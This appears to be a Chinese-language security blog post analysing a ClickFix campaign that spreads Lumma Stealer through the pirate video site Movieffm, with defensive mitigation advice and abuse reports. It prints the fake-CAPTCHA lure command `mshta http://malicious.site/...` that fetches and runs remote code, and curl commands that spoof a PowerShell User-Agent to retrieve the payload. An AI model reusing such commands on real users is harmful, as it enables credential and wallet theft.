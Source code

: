 ```yaml
---
layout: post
title: "惡意程式分析報告：透過盜版影音網站 Movieffm 散播的 Lumma Stealer 攻擊活動 "
subtitle: ""
date: 2025-09-03
author: "Peter"
header-img: "img/post-bg-hack.jpg"
tags: [資安, 惡意程式分析, lumma stealer, clickfix]
---
```


本報告旨在分析一起利用盜版影音網站 Movieffm 進行的惡意軟體攻擊活動。攻擊者首先在該網站中植入混淆的 JavaScript 腳本。該腳本會對訪問者進行瀏覽器指紋辨識 (Fingerprinting)，針對符合條件的目標，觸發一個偽裝成 CAPTCHA 的惡意釣魚頁面。

此釣魚頁面會誘導使用者複製並執行一段 `mshta.exe` 指令，以下載並執行一個 HTA (HTML Application) 檔案。後續的攻擊鏈中，攻擊者再次利用 User-Agent 指紋辨識技術，確保只有來自 PowerShell 的請求才能接收到最終的 Lumma Stealer 惡意腳本 。

一旦 Lumma Stealer 成功執行，它將竊取受害者電腦中的瀏覽器紀錄、加密貨幣錢包、系統憑證等敏感資料，並回傳至攻擊者的 C2 (Command and Control) 伺服器。建議使用者應避免訪問高風險網站，並採用具備惡意網站過濾功能的瀏覽器或安全插件，以降低此類攻擊的風險。

## 一、攻擊鏈分析 (Attack Chain Analysis)

### 階段一：初始入侵與前端腳本植入

分析顯示，Movieffm 網站的頁面中被植入了外部 JavaScript 腳本。經分析，此腳本會動態向遠端伺服器請求並載入一段經過高度混淆的程式碼。

#### 前端腳本
![movieffm javascript](/img/in-post/movieLumma/image-3.png)

該腳本的主要功能是動態建構並發出一個請求，用以載入更複雜的遠端 JavaScript 腳本。透過 Burp Suite 進行流量攔截，可以看到伺服器回應的 JavaScript 內容經過高度混淆。

#### 前端回傳的 javascript response
![burp response](/img/in-post/movieLumma/image-4.png)

初步分析這份龐大的混淆腳本後，確認其核心功能之一是進行使用者 Fingerprinting。透過分析使用者的環境以精準投放 payload 或規避網路或防毒軟體的偵查。

對惡意腳本所在的伺服器 IP 進行 `dig` 與 `shodan` 調查，僅能確認其由 `servers.com` 提供服務，並架設於 Nginx 上，顯示攻擊者利用了常見的託管服務來隱藏其真實基礎設施。
![shodan](/img/in-post/movieLumma/image-6.png)

### 階段二：社交工程與惡意指令傳遞

符合特定指紋的訪問者會被重新導向至一個 CAPTCHA 驗證的釣魚頁面，此頁面託管於 Cloudflare 保護的網域後方，且每次訪問的網域名稱皆不相同，增加了追蹤的難度。

![alt text](/img/in-post/movieLumma/image-8.png)

> 此攻擊手法並非首例，這個手法被稱作 ClickFix ，常伴隨 Lumma Stealer 。詳情可參閱[此連結][1]。

此釣魚頁面的網址每次都不同，但透過 WHOIS 查詢，均發現其利用 Cloudflare 進行反向代理，增加了追蹤其來源伺服器的難度。

#### whois 查詢結果
![whois-cloudflare](/img/in-post/movieLumma/image-14.png)

當使用者點擊頁面上的 "I'm not a robot" 核取方塊時，網頁會執行一段 JavaScript，將一串惡意指令複製到使用者的剪貼簿中，並同時跳出一個彈窗，指示使用者按下 Ctrl + R（或 Cmd + R），然後貼上並執行指令。

#### 頁面誘騙使用者點擊「I'm not a robot」按鈕。
![alt text](/img/in-post/movieLumma/image-9.png)

被複製的指令如下
```powershell
mshta http://malicious.site/gbg7/rhfb.c
```

> mshta.exe 是 Windows 內建的合法程式，常用於執行 HTA 檔案，但也因此成為攻擊者執行任意程式碼的常見「離地攻擊」(Living-off-the-Land) 手段。關於更多請參照[連結][2]。


### 階段三：Payload 下載與執行

為了分析 `mshta` 將要執行的內容，我們使用 `curl` 工具直接請求該 HTA 檔案。
```bash
curl -i "http://malicious.site/gbg7/rhfb.c"
```
![alt text](/img/in-post/movieLumma/image-11.png)

伺服器回傳的 HTA 檔案內容非常簡短，其核心是執行一段 PowerShell 指令，以下載並執行另一個遠端腳本。

當我們嘗試直接用 curl 訪問 PowerShell 將要下載的 URL時，卻發現請求被重新導向到無害的 Steam 網站，暗示伺服器端存在額外的檢查機制。

#### curl 返回結果為 redirect
![curl fingerprinting](/img/in-post/movieLumma/image-12.png)

我們推測伺服器會驗證請求的 User-Agent。因此，我們在 curl 指令中模擬 PowerShell 的 User-Agent 再次發出請求：
```bash
curl -s -X GET "http://malicious.site/gbg7/" -H "User-Agent: Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) WindowsPowerShell/5.1.19041.1320"
```

這次，伺服器成功回傳了真正的惡意 PowerShell 腳本，只有來自受害者機器上 PowerShell 程式的流量才會收到惡意 payload，而來自普通瀏覽器或分析工具的請求則會被另外重新導向。

#### 模擬 powershell 結果為惡意腳本
![powershell user agent response](/img/in-post/movieLumma/image-13.png)

### 階段四：最終目標 - Lumma Stealer 資訊竊取軟體

我們將取得的 PowerShell 腳本上傳至 `any.run` 沙盒環境進行動態分析。

分析報告確認，該腳本的最終 payload 為 Lumma Stealer，這是一款知名的資訊竊取惡意軟體。一旦執行，它會掃描受感染的電腦，竊取儲存在瀏覽器中的敏感資料（如密碼、Cookies、信用卡資訊）、加密貨幣錢包、系統資訊等，並將所有資料打包後傳送到攻擊者的 C2 (Command & Control) 伺服器。

沙盒分析連結: [https://app.any.run/tasks/29c82282-2320-4c94-9529-b5591287fe03][3]

![any.run result](/img/in-post/movieLumma/image-15.png)


## 緩解與建議
為防範此類攻擊，建議使用者採取以下措施：

避免使用盜版或不受信任的網站服務：正版服務通常具備更完善的安全維護，較不易成為惡意程式的溫床。

使用具備防護功能的瀏覽器與擴充套件：

- 瀏覽器如 Microsoft Edge 內建的 SmartScreen 或 Google Chrome 的安全瀏覽 (Safe Browsing) 功能，能有效阻擋已知的惡意網站。
- 安裝如 uBlock Origin 等廣告攔截器，能有效阻止惡意的彈出視窗和腳本執行。

保持高度警覺，切勿執行來路不明的指令：任何引導你在終端機、PowerShell 或執行對話框中輸入的指令，都可能對你的電腦造成無法挽回的損害。務必對這類要求保持懷疑。

## 責任通報與生態系防禦
本次分析中相關連結已向相關單位通報。 

servers.com
![alt text](/img/in-post/movieLumma/image-16.png)

sollutium-nl
![alt text](/img/in-post/movieLumma/image-18.png)

movieffm.net
![alt text](/img/in-post/movieLumma/image-19.png)

## 附錄：樣本資訊
本次分析過程中發現的相關腳本與樣本已整理至以下 GitHub repo：
[https://github.com/PPKan/malware_samples/tree/main/movieffm_samples][4]


[1]:https://www.trendmicro.com/zh_tw/research/25/g/lumma-stealer-returns.html
[2]:https://www.cnblogs.com/backlion/p/10491616.html
[3]:https://app.any.run/tasks/29c82282-2320-4c94-9529-b5591287fe03
[4]:https://github.com/PPKan/malware_samples/tree/main/movieffm_samples
